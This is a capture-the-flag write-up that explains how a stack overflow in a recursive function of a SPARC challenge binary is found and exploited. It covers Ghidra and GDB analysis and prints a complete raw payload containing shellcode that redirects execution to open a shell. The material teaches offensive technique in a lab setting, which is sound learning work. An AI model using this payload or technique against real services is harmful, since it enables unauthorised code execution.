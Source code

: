 # Secret Pwnhub Academy Rewards Club

![Pwn](https://img.shields.io/badge/Pwn--00aaff?style=for-the-badge) ![Points - 312](https://img.shields.io/badge/Points-312-9cf?style=for-the-badge)

```txt
You are part of the club now. To vet you further, we take away a little setup cheat which we used to build your previous trial (hint: -mflat). That said, let's look at another shade of architecture feature...

files: https://pwnhub.fluxfingers.net/static/chall/secret-pwnhub-academy-rewards-club-2_3b5e67d96269302d7a4521bda1cc1049.zip
nc flu.xxx 2025
```

---

## TL;DR

Use the `rec()` function to recurse often enough so that the first call's return pointer will be stored on the stack again. Then overflow into this return address and redirect to custom shellcode.

Something like this will do just fine (`exploit.py` can be found [here](./exploit.py)):

```txt
b'112222234PXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX\xff\xff\xe9\xf8\xff\xff\xebPXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX-\x0b\xd8\x9a\xac\x15\xa1n/\x0b\xdc\xda\x90\x0b\x80\x0e\x92\x03\xa0\x08\x94"\x80\n\x9c\x03\xa0\x10\xec;\xbf\xf0\xd0#\xbf\xf8\xc0#\xbf\xfc\x82\x10 ;\x91\xd0 \x10XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX'
```

## Detailed

Let's start off by taking a closer look at what the task description is referring to when it mentions `-mflat`.

It definitely looks like a command line parameter/flag... probably a compiler flag? Let's take a look at [GCC's manual](https://gcc.gnu.org/onlinedocs/gcc/SPARC-Options.html) for compiling SPARC programs... Found something! ^^

```txt
-mflat
-mno-flat

    With -mflat, the compiler does not generate save/restore instructions and uses a “flat” or single register window model. This model is compatible with the regular register window model. The local registers and the input registers (0–5) are still treated as “call-saved” registers and are saved on the stack as needed.

    With -mno-flat (the default), the compiler generates save/restore instructions (except for leaf functions). This is the normal operating mode.
```

... _umm_ ... that doesn't sound too good. According to this manual the program will no longer create `save/restore` instructions that _save_ the previous functions `frame pointer`, `program counter`, etc. to the stack and _restore_ these values at the end?! Well... this will definitely make code redirection more difficult?! We'll definitely keep this in mind, but let's just move on for now...

From the last challenge we already know that the biny uses the `SPARC` architecture, however, let's once again scan for any enabled security measures:

![checksec](./checksec.png)

... yay! Some good news ^^! It doesn't seem like much has _improved_ from the last challenge... That's nice... Let's use `Ghidra` to see if we find anything exploitable now:

![ghidra-main](./ghidra-main.png)

... _hmm_ ... `main()` has definitely changed in comparison to the last binary... No more calls to `setup()` or `fn()` ... Also, this time, there seems to be no overflow when reading from `stdin`. `auStack512` is `512 bytes` long, like the name suggests, and is filled with a maximum of `512 bytes` when calling the `read()` function on line 13.

Still, let's take a look at `rec()` - there might be something interesting there!

![ghidra-rec](./ghidra-rec.png)

... well definitely more action than in main :P. Let's take a look at this function's most _noteable_ attributes:

* it iterates over an array pointed to by `buf`
  * `buf` is set in `main()` - it points to the input
* if the character `buf` is currently pointing to is either a `1`, `2` or `3`, the function will call itself again - it'll _recurse_ (I wonder where the function's name comes from ... ^^)
  * depending on where in the function the comparison and recursive call happens, either `buf` will be changed so that it points to the next character in the input string or the _character code_ at position `buf` will be increased by one (`A` becomes `B`, etc.).
* whenever `buf` points to the character `4`, the function will copy `buf[1]` bytes (max 255) from the input space to a small buffer (only 16 bytes) created at the beginning of `rec()`
  * ... I think we've found something we can overflow! This copies a variable amount of bytes (`buf[1] ∈ [0,255]`) to the functions frame on stack ...

Where would we want to overflow to, however? Doesn't the `-mflat` option prevent return pointers from being stored on the stack? Well... we didn't do too much research on this topic, but some logical thinking helped us to come to the right conclusion as well:

You can only keep so many return addresses in registers (or similar _limited/static_ spaces)... Surely... if we create a large enough call stack, older return pointers would have to be stored on the stack to make room for newer ones. Sure sounds like a nice theory - let's test it!

This is actually not too hard. Simply give a large amount of `1`s, `2`s or `3`s as input and follow program execution in GDB. Perhaps using `define hook-stop` might be a good idea...

```bash
$ ./run_docker_gdbserver.sh
$ python -c "print('2'*32)" | nc localhost 4444
```

... let's break right after the `save` instruction at the very to of `rec()` and step through the program...

```txt
b *0x000102a8
define hook-stop
  x/256wx $sp
end
```

![gdb-first](./gdb-first.png)

... okay! We can see the first `rec()` call's stack frame and down below what seems to be `main()`'s stack frame with the input buffer starting at `0xffffea58` ... now... let's continue and see if anything changes - if any values will be stored on the stack...

![gdb-main-stored](./gdb-main-stored.png)

... would you look at that! After hitting the breakpoint just 7 times, `main()`'s stack frame seems to have become a bit more populated... Especially the two highlighted values are interested since they point at the stack- and code space respectively ... Let's see if there are any instructions belonging to a function at `0x12874` ... 

![gdb-libc-main](./gdb-libc-main.png)

... that seems about right! This could be `main()`'s return address, since `__libc_main` usually initiates the program... Why not verify that return address will be stored on the stack by continuing to the breakpoint one more time:

![gdb-rec-stored](./gdb-rec-stored.png)

... gotcha! This first address looks unbelievably similar to `main()`'s stack pointer, doesn't it? Could it by any chance be the saved stack pointer?... Let's inspect the second address `0x10538` next - if this points to the instruction in `main()` where `rec()` is being called, then all our assumptions must be true!

![gdb-rec-return](./gdb-rec-return.png)

... **nice!** (_In case you're a bit confused as to why the return address points to where the function is being called and not the first instruction after this, like in x86 - as I already mentioned in the first writeup, this is just a thing with `SPARC`. To still return to the correct address it always returns to <return_address>+8, however._)

Ok! Considering that `rec()` gives us the ability to overflow 240 bytes, by writing 256 bytes into a 16 byte buffer, we should have the abililty to overwrite this stored return address!

Let's first do a manual test run using GDB, however, just to confirm that this stored value is actually being used and see when it is loaded:

Remember the `o7` and `i7` registers I talked about in the previous writeup? We'll need them here. Let's redefine our `hook-stop` and break right at the `rec()` function's restore instruction at the very end of the function:

```txt
b *0x00010500
define hook-stop
  i r pc o7 i7 sp fp
  x/4i $pc
end
```

... now... we overwrite `rec()`'s return address on the stack with some random value like `0x12345`:

```txt
set *0xffffe9c4=0x12345
```

... let's continue debugging!

![gdb-restore-1](./gdb-restore-1.png)

... after continuing for a while, we'll finally hit the breakpoint at `restore` for the first time. Notice that both the `o7` (the current function's return address - will obtain `i7`'s value when the `restore` instruction is executed) and `i7` (the next function's return address - will be updated when `restore` is executed) registers contain the same address. Which, as a quick gdb command can confirm, points to the location in `rec()` where the recursion happens:

![gdb-confirm-return](./gdb-confirm-return.png)

... this is a sign that we're still in the recursion. Let's now continue until we arrive at the function that the first `rec()` called:

![gdb-restore-2](./gdb-restore-2.png)

Right... nothing too off about this, is there? Let's see if our modified return address gets loaded into `i7` once `restore` is executed: use `si`

![gdb-restore-3](./gdb-restore-3.png)

_Tadaa!_ Yes! It looks as though we've successfully redirected code execution! If we continue stepping through the program, we'll see how the modified address moves through the registers after each `restore` until it finally arrives in `pc`, once the last `rec()`s `retl` has been executed:

![gdb-restore-4](./gdb-restore-4.png)

![gdb-restore-5](./gdb-restore-5.png)

All we needed to do now was to create a script that would abuse the behaviour the recursions cause plus the unsafe call to `memcpy()` in the `rec()` function to overflow into the return pointer.

You can find the complete `exploit.py` script [here](./exploit.py) if you want to take a look at it. Here's a summary of what it does:

1. use the string `21222223` at the beginning of the payload to make the function recurse 7 times and therefore store the first `rec()`'s return address on stack - the `3` at the end serves the purpose of exiting from the recursive functions again.
2. then, use `4\x50` + a padding of `0x48` bytes + the new `stack pointer` + the new `program counter` to overwrite both the stack pointer and the program counter with the new values.
3. and last but not least, after padding the already constructed part of the payload to a length of `0x100` bytes, append the shellcode you want to redirect to. We used the same one as in the previous challenge.

After executing the script, all that was left to do was to once again use a simple `cat` to retrieve the flag: `flag{unwindowing_on_th3_beach}`
